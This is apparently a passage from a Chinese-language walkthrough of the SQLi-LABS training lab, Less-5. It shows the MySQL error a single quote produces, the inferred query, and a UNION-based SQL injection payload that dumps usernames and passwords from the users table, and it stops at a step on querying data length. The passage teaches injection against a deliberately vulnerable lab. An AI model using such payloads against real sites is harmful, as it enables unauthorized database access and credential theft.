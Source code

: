 ![image-20210923203205746](../../images/SQLi-LABS/image-20210923203205746.png)

## Less-5  双查询单引号字符串

+ 首先使用单引号测试出现错误。

```sql
# 错误内容
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''15'' LIMIT 0,1' at line 1
```

+ 根据错误信息可以推断出：

```sql
select column1, column2, column3 from users where id = '$id' limit 1, 0;
```

+ 我们可以使用Less-1的SQL来进行获取数据。

```sql
?id=0
# 没有返回数据。
?id=' union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
# 页面返回
You are in...........
```

+ 首先查询数据的长度：
